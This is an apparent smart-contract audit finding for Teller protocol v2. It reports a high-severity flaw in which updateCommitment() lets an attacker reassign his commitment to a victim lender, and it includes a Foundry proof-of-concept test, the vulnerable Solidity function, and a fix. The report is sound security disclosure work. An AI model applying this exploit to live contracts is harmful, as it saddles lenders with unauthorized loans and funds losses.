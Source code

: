 0xbepresent

high

# Malicious lender can assign his own commitment to another victim lender

## Summary

In the [LenderCommitmentForwarder](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol) contract. A malicious lender's commitment can be assigned to another victim lender via the [updateCommitment()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L208) function causing the victim lender to have unauthorized commitments and unautorized loans from borrowers who takes those unauthorized commitments.


## Vulnerability Detail

The [LenderCommitmentForwarder](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol) contract helps to lender to make a capital commitment so the borrower can get an instant loan.

The problem is that an malicious lender can assign his own commitment to another victim lender via the [updateCommitment()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L208) function. The ```updateCommitment()``` does not validate the lender change.

## Impact

Please see the next scenario:

1. An attacker see the [commitments](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L57) and get a lender who has a commitment of X principal token.
2. The attacker creates a malicious commitment for him with a low interest rate for the same principal token. Then he assign it to the victim lender.
3. The attacker [accept the commitment](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L300) (he also acts as a borrower) and the victim lender now has an unauthorized loan.

I created a test where the malicious lender (attacker) commitment is assigned to a victim lender via the ```updateCommitment()``` function causing the victim lender to have unauthorized commitments. Test steps:

1. Attacker creates his commitment via [createCommitment()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L177) function.
2. Attacker assigns his own commitment to a victim lender via the [updateCommitment()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L208) function.
3. Now the commitment, that belonged to the attacker, is assigned to a victim lender

```solidity
File: LenderCommitmentForwarder_Test.sol
275:     function test_attacker_can_assign_his_own_commitment_to_another_lender() public {
276:         // An attacker can assign his own commitment to another lender (victim)
277:         // 1. Attacker creates his commitment
278:         // 2. Attacker assigns his own commitment to a victim lender
279:         // 3. Now the commitment, that belonged to the attacker, is assigned to a victim lender
280:         //
281:         // 1. Attacker creates his commitment
282:         //
283:         address attacker = address(1337);
284:         address victimLender = address(712713);
285:         LenderCommitmentForwarder.Commitment
286:             memory c = LenderCommitmentForwarder.Commitment({
287:                 maxPrincipal: maxPrincipal,
288:                 expiration: expiration,
289:                 maxDuration: maxDuration,
290:                 minInterestRate: minInterestRate,
291:                 collateralTokenAddress: address(collateralToken),
292:                 collateralTokenId: collateralTokenId,
293:                 maxPrincipalPerCollateralAmount: maxPrincipalPerCollateralAmount,
294:                 collateralTokenType: collateralTokenType,
295:                 lender: attacker,
296:                 marketId: marketId,
297:                 principalTokenAddress: address(principalToken)
298:             });
299:         lenderCommitmentForwarder.setCommitment(0, c);
300:         //
301:         // 2. Attacker assigns his own commitment to a victim lender
302:         //
303:         c.lender = victimLender;
304:         vm.prank(attacker);
305:         lenderCommitmentForwarder.updateCommitment(0, c);
306:         //
307:         // 3. Now the commitment, that belonged to the attacker, is assigned to a victim lender
308:         //
309:         assertEq(
310:             lenderCommitmentForwarder.getCommitmentLender(0),
311:             victimLender
312:         );
313:     }
```

## Code Snippet

The [updateCommitment()](https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L208) function does not validate the lender change.

```solidity
File: LenderCommitmentForwarder.sol
208:     function updateCommitment(
209:         uint256 _commitmentId,
210:         Commitment calldata _commitment
211:     ) public commitmentLender(_commitmentId) {
212:         require(
213:             _commitment.principalTokenAddress ==
214:                 commitments[_commitmentId].principalTokenAddress,
215:             "Principal token address cannot be updated."
216:         );
217:         require(
218:             _commitment.marketId == commitments[_commitmentId].marketId,
219:             "Market Id cannot be updated."
220:         );
221: 
222:         commitments[_commitmentId] = _commitment;
223: 
224:         validateCommitment(commitments[_commitmentId]);
225: 
226:         emit UpdatedCommitment(
227:             _commitmentId,
228:             _commitment.lender,
229:             _commitment.marketId,
230:             _commitment.principalTokenAddress,
231:             _commitment.maxPrincipal
232:         );
233:     }
```

## Tool used

Manual review

## Recommendation

Add a lender validation in the ```updateCommitment()``` function. The lender must not change in the ```updateCommitment()``` function.